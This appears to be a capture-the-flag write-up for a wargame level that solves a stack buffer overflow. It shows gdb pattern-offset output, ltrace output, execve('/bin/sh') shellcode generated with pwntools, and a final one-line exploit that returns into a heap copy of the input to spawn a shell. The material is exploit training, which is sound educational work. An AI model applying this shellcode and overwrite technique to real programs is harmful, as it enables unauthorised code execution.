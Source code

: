 <pre>
[debian@alarm Ressources]$ gdb ./level2 
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
Starting program: /home/alarm/rainfall/level02/Ressources/level2 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x804b580 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0x0 
EDX: 0x65 ('e')
ESI: 0xf7fb2000 --> 0x1d9d6c 
EDI: 0xf7fb2000 --> 0x1d9d6c 
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- `python -c "print('a' * 80)" | ltrace ./level2`
<pre>
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>
- `python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"`
```
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```
- `((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2`
